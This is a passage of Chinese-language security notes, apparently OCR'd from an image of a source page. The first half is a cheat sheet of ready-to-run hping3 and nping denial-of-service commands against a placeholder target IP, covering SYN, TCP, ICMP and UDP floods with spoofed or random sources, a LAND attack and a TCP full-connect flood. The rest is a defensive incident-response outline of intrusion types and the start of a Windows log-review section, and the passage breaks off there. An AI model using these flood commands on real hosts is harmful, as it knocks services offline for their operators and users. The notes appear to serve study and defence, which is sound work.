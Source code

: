 -p 端口

–flood 以flood形式攻击

syn-flood

hping3 -c 3000 -d 120 -S -w 64 -p 80 –flood –rand-source [目标ip]

hping3 -S -P -p 80 –flood –rand-source [目标ip]

tcp-flood

hping3 -SARUFP -p 80 –flood –rand-source [目标ip]

icmp-flood

hping3 -q -n -a 1.1.1.1 –icmp -d 56 –flood [目标ip]

udp-flood

hping3 -a 1.1.1.1 –udp -s 53 -d 100 -p 53 –flood [目标ip]

LAND

特殊的syn-flood攻击

源地址和目的地址都是受害者，自己和自己完成三次握手

hping3 -n -a [目标ip] -S -d 100 -p 80 –flood [目标ip]

TCP全链接DOS攻击

nping –tcp-connect –rate=10000 -c 100000000 -q [目标ip]

## 应急响应：

web入侵

挂马，网页篡改（菠菜，黑帽seo），植入webshell，黑页，暗链等

主机入侵

病毒木马，勒索病毒，远控后门，系统异常，RDP爆破，SSH爆破，主机漏洞，数据库入侵等

网络攻击

DDOS/CC攻击，ARP攻击，DNS/HTTP劫持

路由器交换机攻击

内网病毒，配置错误，机器本身漏洞

------

### windows

日志查看

eventvwr.msc打开

windows日志位置

windows2000/2003/xp
